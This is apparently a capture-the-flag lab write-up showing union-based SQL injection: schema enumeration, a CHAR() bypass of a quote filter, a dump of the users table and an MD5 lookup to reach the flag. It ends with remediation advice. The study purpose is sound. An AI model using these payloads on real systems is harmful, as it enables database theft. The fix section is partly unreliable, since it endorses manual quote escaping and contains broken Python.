 # Breach: SQL injection basic


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Go to the members page.

> You'll notice, by entering random data, that the form is vulnerable to SQL injection.

> You guess that the SQL query is something like this:
> ```sql
> SELECT first_name_column, surname_column FROM some_user_table WHERE id_column={the payload you enter};
> ```

> 1. You know that the query is returning a 2 columns result.
> 2. You know that the verification is very poorly protected.

> Conclusion, we can explore the database !


#### Step 2:

Let's explore the database !

> We want to get only the wanted/interesting info, <br>
> So we'll search for a non-existing user id (for exemple `999`) <br>
> And we'll use the UNION operator to add a second query to the first one. <br>

> With the payload `999 UNION ...`, the query will look like this:
> ```sql
> SELECT first_name_column, surname_column FROM some_user_table WHERE id_column=999 UNION ...;
> ```

> There is a special part of the db called `INFORMATION_SCHEMA` that contains tables listing all the information about the database. <br>
> For this exercise, we'll use `INFORMATION_SCHEMA.TABLES` and `INFORMATION_SCHEMA.COLUMNS`, but there are many more interesting tables in `INFORMATION_SCHEMA` !

- List all the tables in the database:
```sql
999 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```


#### Step 3:

The table `users` looks interesting, let's see what's inside...

> The quotes (`'` and `"`) are filtered, but we can use the `CHAR()` function to bypass this filter.

- Translate `users` and `Member_Sql_Injection` to their ASCII values:
```sql
CHAR(117, 115, 101, 114, 115)
CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)
```

- List all the columns in the `users` table:
```sql
999 UNION SELECT COLUMN_NAME, COLUMN_TYPE FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_SCHEMA=CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)
AND TABLE_NAME=CHAR(117, 115, 101, 114, 115)
```

> It gives us the culumns:
> | COLUMN_NAME  | COLUMN_TYPE  |
> | -----------: | :----------- |
> | user_id      | int(11)      |
> | first_name   | varchar(255) |
> | last_name    | varchar(255) |
> | town         | varchar(255) |
> | country      | varchar(255) |
> | planet       | varchar(255) |
> | Commentaire  | varchar(255) |
> | countersign  | varchar(255) |


#### Step 4:

Now we can get the flag from the `users` table.

- List every users:
```sql
999 UNION SELECT user_id, first_name FROM users
```

> Oh ! The user with the id `5` is named `Flag`, let's see if we can get the flag from his account.

- Get the flag:
```sql
999 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5
```

> We get:
> - Decrypt this password -> then lower all the char. Sh256 on it and it's good !
> - 5ff9d0165b4f92b14994e5c685cdce28

--- 

Another way:

- We can list everything:
```sql
999 UNION SELECT user_id, first_name FROM users
UNION SELECT user_id, last_name FROM users
UNION SELECT user_id, town FROM users
UNION SELECT user_id, country FROM users
UNION SELECT user_id, planet FROM users
UNION SELECT user_id, Commentaire FROM users
UNION SELECT user_id, countersign FROM users
```

> It gives us:
> | user_id | first_name | last_name | town      | country  | planet | Commentaire                                                                   | countersign                      |
> | :-----: | :--------- | :-------- | :-------- | :------- | :----- | :---------------------------------------------------------------------------- | :------------------------------- |
> | 1       | one        | me        | Paris     | France   | EARTH  | Je pense, donc je suis                                                        | 2b3366bcfd44f540e630d4dc2b9b06d9 |
> | 2       | two        | me        | Helsinki  | Finlande | Earth  | Aamu on iltaa viisaampi.                                                      | 60e9032c586fb422e2c16dee6286cf10 |
> | 3       | three      | me        | Dublin    | Irlande  | Earth  | Dublin is a city of stories and secrets.                                      | e083b24a01c483437bcf4a9eea7c1b4d |
> | 5       | Flag       | GetThe    | 42        |          |        | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |


#### Step 5:

- Decrypt the password (md5 lookup): `5ff9d0165b4f92b14994e5c685cdce28` -> `FortyTwo`

- Lower all the characters: `FortyTwo` -> `fortytwo`

- Sh256 on it: `fortytwo` -> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


<br>


## How to fix it:

- Use a code interface instead of SQL querries.<br>
  For exemple, with django, the interaction with the database are object-based.<br>
  It just means that instead of :
  ```py
  sql_manager.query("SELECT * FROM Users WHERE id=" + var)  # not safe
  ```
  We now have :
  ```py
  Users.get(id=var)  # almost unbreakable
  ```
  It's injection-free and with some conditions, absolutely unbreakable.

<br>

- Or at least, Check the input before applying the query.<br>
  Example :<br>
  ```py
  try:
      safe_var = int(var)
      if 0 <= safe_var < 1000:
          sql_manager.query("SELECT * FROM Users WHERE id=" + safe_var)  # safe
      else:
          pass  # out of bounds
  except:
      pass  # not a number (may be an injection tentative)
  ```
  And in case the variable is a string, keep it in simple quotes,<br>
  escaping the backslashes and the simple quotes :<br>
  ```py
  safe_var = var.replace("\\", "\\\\").replace("'", "\\'")
  sql_manager.query("SELECT * FROM Users WHERE name='" + safe_var + "'")
  ```

<br>

- And anyway, Keep everything up-to-date !


---

[[Back to main page](/#darkly)]

